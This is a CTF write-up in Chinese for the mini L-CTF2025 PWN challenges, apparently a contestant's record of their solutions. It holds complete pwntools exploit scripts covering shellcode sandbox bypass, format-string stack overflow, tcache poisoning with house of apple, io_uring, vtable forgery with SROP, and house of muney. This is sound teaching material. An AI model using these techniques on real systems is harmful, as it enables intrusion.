

# mini L-CTF2025-wing-WP
本次mini L-CTF2025 本人一共打出6道题
## PWN
### Ex-Aid lv.2
一道shellcode题，禁了一些基础的系统调用

题目从堆上申请3个连续的，0x20大小的chunk

然后mprotect,最后call

我们打一个open+sendfile链,通过jmp $+0xa跳过不可控区域
```python
from pwn import *

p = remote('192.168.1.107',55809)
#p = process('./pwn')
context(os='linux',arch='amd64',log_level='debug')


def exp():
    shellcode = asm("""
                push 0x67616c66;
                mov rdi, rsp;
                xor esi, esi;
                mov edx, 7;
                mov eax, 2;
                syscall;
                jmp $+0xa;
                """)
    print(len(shellcode))
    p.recvuntil(b'signin~\n\n')
    p.send(shellcode)
    shellcode = asm("""
                mov esi, eax;
                xor edi,edi;
                inc edi;
                xor edx,edx;
                mov r10, 0x100;
                mov eax, 40;
                syscall;
                """)
    print(len(shellcode))
    sleep(1)
    p.send(shellcode)

    sleep(1)
    p.send(b'z')
    #gdb.attach(p)
    p.interactive()


if __name__ == '__main__':
    exp()
```
### PostBox
一道由格式化字符串漏洞引发的栈溢出

题目PostScript函数要求v4==114514，v4是一个未初始化的int变量，距离rbp-114h

可以通过PostMessage函数控制buf，距离rbp-0x410h

通过Options->General打开Stack pointer，在Postbox函数中发现偏移一致，说明PostScript函数与PostMessage函数rbp数值一致

由此控制v4

每个函数开头为了保存函数的参数，会将参数压栈，这里是sub和mov构成的逻辑压栈.

该函数两个参数分别是write_time_pointer和write_len_pointer，由此我们便可以通过格式化字符串漏洞篡改write_time和write_len，并泄露canary、rbp、ret_addr。最后返回到backdoor
```python
from pwn import *

p = remote('192.168.1.107',64328)
#p = process('./pwn')
context(os='linux',arch='amd64',log_level='debug')

def exp():
    p.sendlineafter(b'choice:\n\n',b'2')

    pl = b'\x00'*0x2fc + p32(114514)
    p.sendafter(b'contents:\n\n',pl)

    pl = b'%2c%7$n%1021c%6$n-%43$p-%44$p-%45$p-'
    p.sendafter(b'contents:\n\n',pl)
    
    p.recvuntil(b'-')
    canary = int(p.recvuntil(b'-',drop=True),16)
    rbp = int(p.recvuntil(b'-',drop=True),16)
    elf_base = int(p.recvuntil(b'-',drop=True),16) - 0x1715
    backdoor = elf_base + 0x1786

    pl = b'\x00'*0x108 + p64(canary)
    pl += p64(rbp)
    pl += p64(backdoor)
    p.sendafter(b'contents:\n\n',pl)

    log.success('canary:'+hex(canary))
    log.success('rbp:'+hex(rbp))
    log.success('elf_base:'+hex(elf_base))

    #gdb.attach(p)
    p.interactive()


if __name__ == '__main__':
    exp()
```
### EasyHeap
一道菜单堆，使用fgets进行chunk的编辑，会在末尾置\0，add中必须输入内容，无法利用残留指针进行leak，Delete中没有对结构体数组中的指针清空，且没有大小的检查，但是会把大小清空，Edit会依照大小进行输入长度限制，Show要求大小不为零才能输出。故本题可利用的漏洞只有free after free。我们可以进行常规的伪造堆块进行chunk overlap。通过tcache poison打 house of apple。


本题通过沙盒禁了open和openat，于是也没法打开/bin/sh文件getshell了，我们走svcudp_reply，swapcontext，mprotect，io_uring链获取flag。

似乎本题预期解是通过openat2打开flag文件，但我当时打比赛的时候并不知道有这么个东西，只能从网上找了一个io_uring的模板来~~力大砖飞~~get flag了。
```python
from pwn import *

#p = remote('192.168.1.107',51903)
p = process('./vuln')
libc = ELF('./libc.so.6')
context(os='linux',arch='amd64',log_level='debug')

def add(idx,size,content):
    p.sendlineafter(b'Choice: ',b'1')
    p.sendlineafter(b'Index: ',str(idx).encode())
    p.sendlineafter(b'Size: ',str(size).encode())
    p.sendlineafter(b'data: ',content)

def edit(idx,content):
    p.sendlineafter(b'Choice: ',b'2')
    p.sendlineafter(b'Index: ',str(idx).encode())
    p.sendlineafter(b'data: ',content)

def show(idx):
    p.sendlineafter(b'Choice: ',b'3')
    p.sendlineafter(b'Index: ',str(idx).encode())

def delete(idx):
    p.sendlineafter(b'Choice: ',b'4')
    p.sendlineafter(b'Index: ',str(idx).encode())

def init():
    for i in range(13):
        add(0,0x10,b'a')
    for i in range(2):
        add(0,0x20,b'a')
    for i in range(4):
        add(0,0x30,b'a')
    add(0,0x40,b'a')
    add(0,0x50,b'a')
    for i in range(9):
        add(0,0x60,b'a')
    for i in range(6):
        add(0,0x70,b'a')
    for i in range(2):
        add(0,0xc0,b'a')
    for i in range(6):
        add(0,0xe0,b'a')

def exp():
    
    init()
    
    #step 1 chunk overlap
    #get a fake_chunk ptr
    for i in range(10):
        add(i,0x200,b'a')#idx0 to 6,tcache;idx7,8,9 unsortedbin
    for i in range(7):
        add(i+10,0x80,b'a')#idx10 to 16,tcache
    add(0x1f,0x400,b'a')#idx31
    add(0x1e,0x400,b'b')#idx30
    for i in range(9):
        delete(i)#put 0 to 6 in tcache
    add(17,0x80,b'a')
    add(18,0x80,b'a')#idx18 is the fake_chunk_ptr
    for i in range(7):
        delete(i+10)#put 10 to 16 in tcache
    delete(17)
    delete(18)
    for i in range(9):
        add(i,0x200,b'a')#get back
    #forge a fake_chunk
    pl = b'\x00'*0x80
    pl += p64(0) + p64(0x991)
    edit(7,pl)
    delete(18)#chunk overlap!
    for i in range(7):
        add(i+10,0x80,b'a')#idx10 to 16,tcache,get back

    #step2 leak libc_base and heap_base
    add(19,0x170,b'a')
    show(8)
    p.recvuntil(b'Data: ')
    libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x203b20
    
    add(20,0x20,b'a')
    delete(20)
    show(8)
    p.recvuntil(b'Data: ')
    heap_base = (u64(p.recv(5).ljust(8,b'\x00')) << 12) - 0x2000
    
    #step3 modify _IO_list_all to fake_file
    IO_list_all = libc.sym['_IO_list_all']
    IO_wfile_jumps = libc.sym['_IO_wfile_jumps']
    lock = libc.address + 0x205700
    fake_file_addr = heap_base + 0x3120
    shellcode_addr = heap_base + 0x2d10
    puts = libc.sym['puts']
    svcudp_reply = libc.address + 0x179220
    swapcontext = libc.address + 0x580c0
    system = libc.sym['system']
    one_gadget = [0x583ec,0x583f3,0xef4ce,0xef52b]
    execve = libc.address + 0xeef30
    mprotect = libc.sym['mprotect']

    add(21,0x1c0,b'b')
    pl = p64(0) + p64(0x31)
    pl = pl.ljust(0x30,b'\x00')
    pl += p64(0) + p64(0x51)
    add(22,0x80,pl)
    delete(9)
    
    pl = p64(0) + p64(0x31)
    pl += p64(((heap_base+0x2000)>>12)^IO_list_all)
    edit(22,pl)
    
    add(23,0x20,b'a')
    add(24,0x20,p64(fake_file_addr))
    
    file = FileStructure()
    file.flags = b'  sh'
    file._IO_write_ptr = 1
    file._IO_write_base = 0
    file._IO_save_base = fake_file_addr + 0x280
    file._lock = lock
    file._wide_data = fake_file_addr + 0xe0
    file.vtable = IO_wfile_jumps
    
    pl = flat({
            0:{0:bytes(file),
                0xe0:{
                    0x18:0,
                    0x30:0,
                    0xe0:fake_file_addr+0x200
                    },
                0x200:{
                    0x68:svcudp_reply +29
                    },
                0x280:{
                    0x10:0,
                    0x18: fake_file_addr+0x280,
                    0x28: swapcontext+157,
                    0x68: heap_base,
                    0x70: 0x10000,
                    0x78: heap_base+0x18000,
                    0x88: 7,
                    0xa0:fake_file_addr+0x380,
                    0xa8:mprotect,
                    0xe0:fake_file_addr
                    },
                0x380:shellcode_addr
                }
            },filler=b'\x00')
    edit(30,pl)
    shellcode = asm("""
                mov rbx, rbp
                sub rbx, 0xf0
                """)
    shellcode += asm(shellcraft.syscall(425, 16, "rbx"))
    shellcode += asm("""
                 sub rbx, 0x28
                 mov [rbx], rax
                 mov r13, rax
                 """)
    shellcode += asm(shellcraft.mmap(0, 1000, 3, 1, "r13", 0))
    shellcode += asm("""
                 mov [rbp-0x110], rax
                 """)
    shellcode += asm(shellcraft.mmap(0, 1000, 3, 1, "r13", 0x8000000))
    shellcode += asm("""
                 mov [rbp-0x108], rax
                 """)
    shellcode += asm(shellcraft.mmap(0, 1000, 3, 1, "r13", 0x10000000))
    shellcode += asm("""
                 mov [rbp-0x100], rax
                 xor r13, r13
                 mov [rax], r13
                 mov [rax+8], r13
                 mov [rax+0x10], r13
                 mov [rax+0x18], r13
                 mov [rax+0x20], r13
                 mov [rax+0x28], r13
                 mov [rax+0x30], r13
                 mov [rax+0x38], r13
                 mov rax, [rbp-0x100]
                 mov byte ptr [rax], 0x12
                 mov byte ptr [rax+1], 0x10
                 mov rdx, 0x67616c662f
                 mov [rbp+0x100], rdx
                 mov rdx, rbp
                 add rdx, 0x100
                 mov [rax+0x10], rdx
                 mov eax, [rbp-0xB0]
                 mov edx, eax
                 mov rax, [rbp-0x110]
                 add rax, rdx
                 mov     [rax], r13
                 mov     eax, [rbp-0xC4]
                 mov     edx, eax
                 mov     rax, [rbp-0x110]
                 add     rax, rdx
                 mov     edx, [rax]
                 add     edx, 1
                 mov     [rax], edx
                 mov     r12, [rbp-0x118]
                 xor     rax, rax
                 sub     rsp, 8
                 push    0
                 """)
    shellcode += asm(shellcraft.syscall(426, "r12", 1, 1, 1, 0, 0))
    shellcode += asm("""
                 add rsp, 0x10
                 mov     eax, [rbp-0x8C]
                 mov     edx, eax
                 mov     rax, [rbp-0x108]
                 add     rax, rdx
                 mov     [rbp-0xF8], rax
                 mov     rax, [rbp-0xF8]
                 mov     eax, [rax+8]
                 mov     [rbp-0x114], eax
                 lea     rdx, [rbp-0x70]
                 mov     rax, [rbp-0x100]
                 mov [rax], r13
                 mov [rax+8], r13
                 mov [rax+0x10], r13
                 mov [rax+0x18], r13
                 mov [rax+0x20], r13
                 mov [rax+0x28], r13
                 mov [rax+0x30], r13
                 mov [rax+0x38], r13
                 mov rax, [rbp-0x100]
                 mov byte ptr [rax], 0x16
                 mov     ecx, [rbp-0x114]
                 mov     [rax+4], ecx
                 mov     [rax+0x10], rdx
                 mov     rbx, 0x64
                 mov     [rax+0x18], rbx
                 mov     edx, [rbp-0xB0]
                 mov     rax, [rbp-0x110]
                 add     rax, rdx
                 mov     [rax], r13
                 mov     eax, [rbp-0xC4]
                 mov     edx, eax
                 mov     rax, [rbp-0x110]
                 add     rax, rdx
                 mov     edx, [rax]
                 add     edx, 1
                 mov     [rax], edx
                 mov     r12, [rbp-0x118]
                 xor     rax, rax
                 sub     rsp, 8
                 push    0
                 """)
    shellcode += asm(shellcraft.syscall(426, "r12", 1, 1, 1, 0, 0))
    shellcode += asm("""
                 add rsp, 0x10
                 lea     rdx, [rbp-0x70]
                 mov     rax, [rbp-0x100]
                 mov [rax], r13
                 mov [rax+8], r13
                 mov [rax+0x10], r13
                 mov [rax+0x18], r13
                 mov [rax+0x20], r13
                 mov [rax+0x28], r13
                 mov [rax+0x30], r13
                 mov [rax+0x38], r13
                 mov rax, [rbp-0x100]
                 mov byte ptr [rax], 0x17
                 mov     ecx, 1
                 mov     [rax+4], ecx
                 mov     [rax+0x10], rdx
                 mov     rbx, 0x64
                 mov     [rax+0x18], rbx
                 mov     edx, [rbp-0xB0]
                 mov     rax, [rbp-0x110]
                 add     rax, rdx
                 mov     [rax], r13
                 mov     eax, [rbp-0xC4]
                 mov     edx, eax
                 mov     rax, [rbp-0x110]
                 add     rax, rdx
                 mov     edx, [rax]
                 add     edx, 1
                 mov     [rax], edx
                 mov     r12, [rbp-0x118]
                 xor     rax, rax
                 sub     rsp, 8
                 push    0
                 """)
    shellcode += asm(shellcraft.syscall(426, "r12", 1, 3, 1, 0, 0))
    print(hex(len(shellcode)))
    edit(31,shellcode)

    log.success('libc_base:'+hex(libc.address))
    log.success('heap_base:'+hex(heap_base))
    #gdb.attach(p)
    p.sendlineafter(b'Choice: ',b'5')
    p.interactive()


if __name__ == '__main__':
    exp()
```
### CTFers
一道c++虚表利用题，我们可以通过bug篡改ctfer表第一项使其指向我们可控的name_buf处，并在name_buf处伪造一个CTFer结构体，结构体大概如下

第一次我们伪造结构体使name指向got表，name_len为8，以leak libc_base，第二次我们伪造vtable，并找一个gadget以控制rdx来进行SROP，然后execve

找到gadget如下

由于c++的char_traits模板在接收到空白字符后便会停止接收，而我们的gadget低一位正好是一个0x20，即空格，需要减去2，影响不大。
```python
from pwn import *

#p = remote('192.168.1.107',60717)
p = process('./pwn')
libc = ELF('./libc.so.6')
elf = ELF('./pwn')
context(os='linux',arch='amd64',log_level='debug')

def join(name, points=1, type=0):
    p.sendlineafter(b'Choice &gt; ',b'0')
    p.sendlineafter(b'Name &gt; ',name)
    p.sendlineafter(b'Points &gt; ',str(points).encode())
    p.sendlineafter(b'Binary - 1 &gt; ',str(type).encode())

def show():
    p.sendlineafter(b'Choice &gt; ',b'2')

def bug(num):
    p.sendlineafter(b'Choice &gt; ',b'3735928559')
    p.sendline(str(num).encode())

def exp():
    name_buf = 0x4092e0
    
    #step1 forge a fake_ctfers to leak libc_base
    join(b'a')
    pl = p64(0x408c98) #vtable
    pl += p64(100) #points
    pl += p64(0x408EC8) #name_ptr
    pl += p64(8) #name_len
    join(pl)

    bug(name_buf)
    show()
    p.recvuntil(b'[0] I am ')
    libc.address = u64(p.recv(8)) - libc.sym['printf']

    #step2 forge a fake_ctfers to getshell
    do_system = libc.address + 0x50900
    execve = libc.sym['execve']
    binsh = next(libc.search(b'/bin/sh'))
    one = [0xebc81,0xebc85,0xebc88,0xebce2,0xebd38,0xebd3f,0xebd43]
    magic = libc.address + 0x000000000016741e#add byte ptr [rax],al;mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
    svcudp_reply = libc.address + 0x16a050
    swapcontext = libc.address + 0x53e00
    setcontext = libc.address + 0x539e0
    
    pl = b'\x00'*0x81
    #pl += p64(100) 
    #pl += p64(binsh)
    #pl += p64(8)
    join(pl)

    frame = SigreturnFrame()
    frame.rdi = binsh
    frame.rsp = 0x409800
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = execve
    pl = flat({
            0: name_buf + 0x10,
            0x8 : name_buf ,#rdx
            0x10: magic, #call
            0x20: setcontext+61,#call
            0x30: bytes(frame)[0x30::]
            },filler=b'\x00')
    join(pl)
    
    show()

    log.success('libc_base:'+hex(libc.address))
    #gdb.attach(p)
    #pause()
    p.interactive()


if __name__ == '__main__':
    exp()
```
### MiniSnake
一个贪吃蛇小游戏，给了一个随机数模式和全＃号模式，随机数的种子可以是随机的或者自己输入。程序漏洞在于hit wall和get point的处理在同一个线程上，导致get point和hit wall无法同时发生。我们可以在边界上get points以穿墙。栈中布局如下

其中上16行是墙内，下面分别是遗留数据，canary，rbp，ret_addr。那么思路显而易见便是，在下方左侧8格穿墙（绕过canary），将随机出来的蛇身(backdoor)置于ret处，就可以getshell。

接下来的问题便是怎么获取一个可以用于返回到backdoor处的随机数，由于给了源码，我们可以从源码中修修剪剪出来一个爆破脚本。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <threads.h>
#include <unistd.h>
#include <stdint.h>
#include <stdbool.h>

#define WIDTH 16
#define HEIGHT WIDTH
#define TICK_TIME 200000000
#define POINTS 10
#define MAX_LENGTH POINTS

#define EATING "GOT POINT!"
#define PADDING "          "
#define WALL "HIT WALL!"

bool running = true;

enum modes { FIXED, RANDOM };
enum skins { CLASSIC, NUMERIC };
enum directions { UP, DOWN, LEFT, RIGHT };

struct Point {
    size_t x;
    size_t y;
    uint8_t value;
};

static int point_compar_pos(const void *_pa, const void *_pb) {
    const struct Point *pa = _pa;
    const struct Point *pb = _pb;
    if (pa->x - pb->x != 0) {
        return pa->x - pb->x;
    }
    return pa->y - pb->y;
}

struct Snake {
    enum directions dir;
    size_t length;
    struct Point body[MAX_LENGTH + 3];
    size_t point_count;
    struct Point points[POINTS];
};

struct {
    enum modes mode;
    enum skins skin;
    unsigned int seed;
} config;

bool hit_wall = false;
int ate_point_idx = -1;

void init(void) { setbuf(stdout, NULL); }

void settings(unsigned int myseed) {
    config.mode = FIXED;
    config.skin = NUMERIC;
    config.seed = myseed;
}

int game() {
    int value=0;
    struct {
        thrd_t control_thrd;
        thrd_t events_thrd;
        struct Snake snake;
        struct timespec time_sleep;
        uint8_t map[HEIGHT][WIDTH];
    } game = {.snake = {.body = {{.x = 5, .y = 3},
                                 {.x = 4, .y = 3},
                                 {.x = 3, .y = 3}},
                        .dir = RIGHT,
                        .length = 3},
              .time_sleep = {.tv_nsec = TICK_TIME, .tv_sec = 0}};
    srandom(config.seed);
    if (config.skin == CLASSIC) {
        game.snake.body[0].value = game.snake.body[1].value =
            game.snake.body[2].value = '#';
    } else if (config.skin == NUMERIC) {
        game.snake.body[0].value = random() % (UINT8_MAX - 1) + 1;
        game.snake.body[1].value = random() % (UINT8_MAX - 1) + 1;
        game.snake.body[2].value = random() % (UINT8_MAX - 1) + 1;
    }
    value = (game.snake.body[0].value << 16) + (game.snake.body[1].value<<8) + game.snake.body[2].value;
    //printf("seed:%d,body value:0x%x\n",config.seed,value);
    //create(game.map, &game.snake);
    return value;
}

int main(void) {
    int value=0;
    unsigned int seed =0;
    init();
    for(seed=0;seed<0x1000000;seed++){
    	settings(seed);
    	value = game();
    	if(value==0x40155f||value==0x40163E||value==0x40164D){
	    printf("seed:%d,value:0x%x maybe success!\n",seed,value);
    	}
    }
    return 0;
}
```
结果如下

发现7282606比较合适，之前展示的栈中布局便是由该种子生成的布局，我们在下方的0x31处穿墙，在y=17时右转，在x=10时退出即可返回到backdoor。
### MmapHeap
一道很有特色的堆题，依赖库是出题人自己写的mylib，里面实现了一些自己写的函数。

本题的堆管理器有两个结构体，暂且叫他们segment_arena和chunk。

malloc函数中，通过大循环遍历segment_arena中的fd和bk形成的连接各mmap到的内存段的双向链表，通过小循环遍历由chunk_link_list形成的chunk的单向链表。

通过chk_chunk_size对chunk_size进行检查。检查只要求in_use位不为零，且size大于0x10，即chunk最小为0x20，不是很严格，允许size位极其巨大。

只要chunk_size大于等于请求size且in_use位为零就算查找成功，然后再通过fetch对chunk进行切分。查找失败再去申请新的内存段。

新的内存段会在开头设置一个segment_arena。

Free会寻找该chunk所处的内存段，并将其插入到chunk_link_list的开头(后进先出)。如果为chunk_num为零，则把该内存段munmap。没有chunk合并。

munmap长度由end和base计算而来。

整体看下来并没有在mylib中发现什么明显漏洞。

vuln中存在一个off by null漏洞。

最终目的是要把f_open解析到r_open。

利用mmap的特性，我们可以利用off by null冲掉segment_arena的chunk_link_list的低一字节，使chunk_link_list指向segment_arena，进而达成任意地址写。然后打house of muney。

house of muney是一种针对重定向机制的攻击，通过伪造哈希表，符号表和字符串表使函数解析到任意地址。详细的介绍可以去看roderick大佬的博客，这里附下链接:<https://roderickchan.github.io/zh-cn/2022-06-18-glibcheap-house-of-muney/>。

大致思路如下：  
1.解析一些必要的函数  
2.利用off by null达成任意地址写，并leak mylib_base  
3.篡改segment_end，使free_node_header的时候将mylib的LOAD段~~一把抓住，顷刻炼化~~munmap掉  
4.伪造哈希表，符号表和字符串表，将f_open解析至r_open。  
```python
from pwn import *

#p = remote('192.168.1.105',63327)
p = process('./vuln')
mylib = ELF('./libmylib.so')
elf = ELF('./vuln')
context(os='linux',arch='amd64',log_level='debug')

def add(idx,size,data):
    p.sendlineafter(b'option:\n',b'1')
    p.sendlineafter(b'idx: ',str(idx).encode())
    p.sendlineafter(b'size: ',str(size).encode())
    p.sendafter(b'data: ',data)

def edit(idx,data):
    p.sendlineafter(b'option:\n',b'2')
    p.sendlineafter(b'idx: ',str(idx).encode())
    p.sendafter(b'data: ',data)

def delete(idx):
    p.sendlineafter(b'option:\n',b'3')
    p.sendlineafter(b'idx: ',str(idx).encode())

def show(idx):
    p.sendlineafter(b'option:\n',b'4')
    p.sendlineafter(b'idx: ',str(idx).encode())

def load(filename,idx):
    p.sendlineafter(b'option:\n',b'5')
    p.sendlineafter(b'idx: ',str(idx).encode())
    p.sendafter(b'filename: ',filename)

def exp():
    #step1 relocate useful func_got
    add(0,0xf,b'b')
    load(b'./vuln',0)#relocate close and strstr
    delete(0)

    #step 2 off by null to modify arena's list to arena
    for i in range(4):
        add(i,0x10,b'b')#idx0 to 3
    add(4,0xff50,b'new mmap')
    add(5,0xff40,b'fill old mmap')
    
    delete(0)#modify old_mmap_arena_list to idx0
    pl = b'\x00'*0x50 + p64(0x80) + p64(0) # a fake_chunk
    add(6,0x60,pl)#modify old_mmap_arena_list to old_mmap_arena
    
    add(7,0x90,b'\x00')#overlap chunk

    #step3 leak mylib_base
    show(3)
    mylib_base = u64(p.recvuntil(b'\n',drop=True).ljust(8,b'\x00')) + 0xa0 + 0x10000
    
    #step4 munmap mylib's relocate table
    delete(1)
    pl = p64(mylib_base- 0x10000) + p64(mylib_base + 0x1000)
    pl += p64(mylib_base - 0x20000) + p64(mylib_base + 0x4020) 
    pl += p64(0x20) + p64(0)*3 + p64(0x20) + p64(mylib_base - 0x10010)
    edit(7,pl)
    
    pl = p64(mylib_base - 0x10000 + 0x50) + p64(1)
    add(8,0x70,pl)
    delete(2)#trigger attack!

    #step5 house of muney
    add(0,0x10,b'test')
    add(1,0xef90,b'pad')#now mmap_top_size==0x1010
    
    gnu_hash_section = mylib.get_section_by_name('.gnu.hash')
    dynsym_section = mylib.get_section_by_name('.dynsym')
    dynstr_section = mylib.get_section_by_name('.dynstr')
    namehash = gnu_hash_section.gnu_hash('f_open')

    bloom_off = gnu_hash_section['sh_addr'] + 4 * gnu_hash_section._wordsize
    bucket_off = bloom_off + gnu_hash_section.params['bloom_size'] * gnu_hash_section._xwordsize
    bloom_elem_idx = int(namehash /gnu_hash_section.elffile.elfclass) % gnu_hash_section.params['bloom_size']
    bloom_elem_off = bloom_off + bloom_elem_idx * gnu_hash_section._xwordsize
    bloom_elem_val = gnu_hash_section.params['bloom'][bloom_elem_idx]
    bucket_elem_idx = namehash % gnu_hash_section.params['nbuckets']
    bucket_elem_off = bucket_off + bucket_elem_idx * gnu_hash_section._wordsize
    bucket_elem_val = gnu_hash_section.params['buckets'][bucket_elem_idx]
    hasharr_off = gnu_hash_section._chain_pos + (bucket_elem_val - gnu_hash_section.params['symoffset']) * gnu_hash_section._wordsize
    sym_off = dynsym_section['sh_offset'] + bucket_elem_val * dynsym_section['sh_entsize']
    sym_value = b''
    sym_value += p32(0x550 - dynstr_section['sh_offset']) # st_name
    sym_value += p8(0x12) # st_info
    sym_value += p8(0) # st_other
    sym_value += p16(1) # st_shndx
    sym_value += p64(0x139b) # st_value,r_open
    sym_value += p64(8) # st_size
    
    pl = flat({
        bloom_elem_off:p64(bloom_elem_val),
        bucket_elem_off:p32(bucket_elem_val),
        hasharr_off:p32(namehash),
        sym_off:sym_value,
        0x550:b'f_open'
        },filler=b'\x00')

    log.success('bloom_elem_off:'+hex(bloom_elem_off))
    log.success('bucket_elem_off:'+hex(bucket_elem_off))
    log.success('hasharr_off:'+hex(hasharr_off))
    log.success('sym_off:'+hex(sym_off))
    log.success('mylibc_base:'+hex(mylib_base))
    
    add(2,0x1000,pl)

    load(b'/flag',1)
    show(1)
    #gdb.attach(p)
    p.interactive()


if __name__ == '__main__':
    exp()
```

## 后记
本次miniLCTF是我第一次在这么知名的队伍的比赛上实现PWN单方向AK。整体感觉题目难度不低，十分新颖，非常具有价值。故略写WP以作纪念。